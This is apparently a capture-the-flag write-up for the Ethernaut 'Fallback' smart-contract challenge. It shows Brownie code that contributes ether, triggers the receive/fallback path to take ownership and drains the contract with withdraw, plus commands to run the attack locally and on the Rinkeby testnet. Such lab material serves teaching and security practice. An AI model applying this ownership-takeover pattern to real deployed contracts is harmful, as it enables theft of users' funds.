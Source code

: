 - Let's attack it now. First we're sending some ether to this contract.  

```js
contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
contrib_tx.wait(1)
```

- Now we're using the `transfer` functionality of brownie to send the money to the contract.

```js
attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
attack_tx.wait(1)
```

- By invoking this function we're matching the require statement in the `require()` method of the contract & this will make us the new owner.

```js
require(msg.value > 0 && contributions[msg.sender] > 0);
owner = msg.sender;
```

- Now to complete the challenge we have to drain all the funds. It's easy now as we're now the owner we cann call the built-in `withdraw()` function.


## Using Brownie to run the program

- To run on local development environment. This will compile all the nesessary files & run the attack script.

```bash
brownie run .\scripts\attack.py
```

![jadu](./images/fallback.png)

- To run on `rikeby` network use this command. Syntax is `brownie run <script.py> <function name> <contract address> --network rikeby`

```bash
brownie run .\scripts\attack.py main "0x4c7c62Ed79994383EEa5Cf156bd3159e9e12C385" --network rinkeby
```
